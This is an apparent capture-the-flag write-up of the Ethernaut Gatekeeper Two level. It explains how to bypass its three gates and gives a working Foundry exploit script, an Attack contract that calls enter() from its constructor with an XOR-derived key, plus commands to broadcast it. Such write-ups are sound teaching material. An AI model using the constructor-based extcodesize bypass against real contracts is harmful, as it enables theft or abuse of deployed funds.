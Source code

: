 **Goal:**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level

**Explanation:**

1. Similiar to gatekeeper one, to pass `gateOne()` here we need to call from a contract.
2. `gateTwo()` checks that the caller contract code should zero. 
3. Code inside contract constructor won’t be stored on blockchain. So, we can call the `enter()` from our attack contract constructor.
4. To pass the `gateThree()` we need to do simple XOR operation. To get the `gateKey()` we need to do `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` XOR `type(uint64).max`.

```
We know that
 
//If x ^ y = z then x ^ z = y
```


Level14Solution.s.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level14.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack{
    constructor(){ 
        GatekeeperTwo  instance = GatekeeperTwo(0xc3FB4c38f398050206ea0D07D18D693Bc75888AA) ;
        bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        instance.enter(gateKey);
    }   
}
contract Level14Sol is Script{
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Attack();
        vm.stopBroadcast();
    }
}

```

**To run the script**

```
$ source .env
$ forge script script/Level14Solution.s.sol:Level14Sol --rpc-url $RPC_URL --broadcast
```

## Naught Coin
